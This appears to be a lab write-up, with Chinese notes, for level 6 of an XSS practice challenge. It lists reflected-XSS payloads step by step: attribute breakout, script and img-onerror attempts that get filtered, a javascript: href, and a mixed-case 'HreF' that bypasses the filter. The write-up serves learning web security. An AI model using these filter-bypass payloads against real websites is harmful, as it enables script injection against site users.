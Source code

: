 # level6

level6.php?keyword=break it out!

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603164299152-498d7d45-adda-465d-9d86-7bf75bc306e0.png)

level6.php?keyword=">11

双引号简括号闭合

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603164428936-76952b86-89d5-4b6b-a127-5672da5cda4d.png)

level6.php?keyword="><script>alert(1)</script>

script标签过滤

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603164470323-c5071e75-4702-40b8-9ad8-7227962ea61e.png)

level6.php?keyword="><img src=1 onerror=alert(1)>

src属性和onerror别过滤处理

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603164607675-92c8aa4a-c833-4099-bc6e-fe845bb60cae.png)

level6.php?keyword="><a href="javascript:alert(1)">click me</a>

href属性也被过滤处理

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603164678013-0a480496-20db-4dcc-b0b8-11b17e64fcf2.png)

level6.php?keyword="><a HreF="javascript:alert(1)">click me</a>

大小写绕过

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603165050916-8ab4629e-bbf3-4520-8903-a3cc2d439002.png)